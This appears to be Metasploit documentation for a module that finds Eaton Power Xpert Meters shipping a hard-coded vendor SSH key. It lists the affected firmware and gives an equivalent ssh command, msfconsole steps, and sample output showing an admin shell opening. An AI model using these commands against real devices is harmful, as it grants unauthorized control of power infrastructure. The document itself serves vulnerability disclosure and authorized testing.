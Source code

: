 # Description
  
  The eaton_xpert_backdoor module scans for Eaton Xpert Power meters with a vendor SSH private key used in the device firmware's build process.

## Vulnerable Application

  Eaton is a power management company with a wide range of power management products.
  Power meters sold by Eaton used a firmware build process for many years that left a developer key pair in the default profile.
  Specific models include: Power Xpert Meter 4000/6000/8000

  Software Link: http://www.eaton.com/Eaton/ProductsServices/Electrical/ProductsandServices/PowerQualityandMonitoring/PowerandEnergyMeters/PowerXpertMeter400060008000/index.htm#tabs-2

  Version: Firmware <= 12.x and <= 13.3.x.x and below more versions may be impacted
  Tested on: Firmware 12.1.9.1 and 13.3.2.10
  Similar to running: `ssh -m hmac-sha1 -c aes128-cbc -o KexAlgorithms=diffie-hellman-group1-sha1 -o HostKeyAlgorithms=ssh-rsa  -i ./id_rsa admin@1.1.1.2`

## Verification Steps

  1. Start `msfconsole`
  2. `use auxiliary/scanner/ssh/eaton_xpert_backdoor`
  3. `set RHOSTS 1.1.1.2`
  4. `run -z`
  5. `Vulnerable hosts should present a shell`

## Scenarios

```
msf > use auxiliary/scanner/ssh/eaton_xpert_backdoor
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > set RHOSTS 1.1.1.2
RHOSTS => 1.1.1.2
msf auxiliary(scanner/ssh/eaton_xpert_backdoor) > run -z

[+] 192.168.135.155:22 - Logged in as admin
[*] Command shell session 1 opened (1.1.1.1:62063 -> 1.1.1.2:22) at 2018-08-31 19:12:21 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
